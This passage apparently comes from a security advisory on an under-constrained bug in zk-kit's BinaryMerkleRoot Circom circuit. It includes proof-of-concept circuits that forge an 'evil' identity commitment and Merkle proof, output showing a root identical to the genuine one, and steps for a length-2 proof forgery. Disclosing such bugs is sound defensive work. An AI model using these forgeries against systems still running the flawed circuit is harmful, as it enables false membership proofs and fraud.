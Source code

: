 ```circom
        0, 0, 0, 0, 0
    ];
    var evilmerkleProofSiblings[12] = [
        15605974636709623986332381568988637739421098874644228905249510008250316340943, 0, 0, 0, 0, 0, 0,
        0, 0, 0, 0, 0
    ];
    var evilroot = BinaryMerkleRoot(12)(evilidentityCommitment, evilmerkleProofLength, evilmerkleProofIndices, evilmerkleProofSiblings);
    log("root", root);
    log("evilroot", evilroot);
}

component main = Poc();

/* INPUT = {
   
} */
``` 

#### Result

Identical roots:

```
root 11531730952042319043316244572610162829336743623472270581141123607628087976577
evilroot 11531730952042319043316244572610162829336743623472270581141123607628087976577
```
    
### Proof Length 2

#### Steps

1. Use the two nodes that generate the root as `target0` and `target1`, respectively.
2. Set the first value of `evilMerkleProofIndices` to 0.
3. Use your chosen value for `evilMerkleProofSiblings[0]`.
4. Set `evilIdentityCommitment` to the commitment you want to test. For this example, use `20487509512443004370293742889271596038604851758367067799025496182227063091563`.
5. For N, compute the Poseidon hash of `evilIdentityCommitment` and the sibling value you provided for `evilMerkleProofSiblings[0]`.
6. The program will then generate two new values, these correspond to `evilMerkleProofIndices[1]` and `evilMerkleProofSiblings[1]`.

![Sage Math ZK-Kit Proof Length 2](/articles/under-constrained-bug-in-binary-merkle-root-circuit-fixed-in-v200/sage-math-zk-kit-proof-length-2.png)

#### Circom Code

```circom
pragma circom 2.1.5;

include "circomlib/circuits/poseidon.circom";
include "circomlib/circuits/mux1.circom";
include "circomlib/circuits/comparators.circom";

// Copy/paste BinaryMerkleRoot circuit from https://github.com/privacy-scaling-explorations/zk-kit.circom/blob/binary-merkle-root.circom-v1.0.0/packages/binary-merkle-root/src/binary-merkle-root.circom

template Poc () {

//                          Root: 3330844108758711782672220159612173083623710937399719017074673646455206473965
//                          /                                                                                  \
```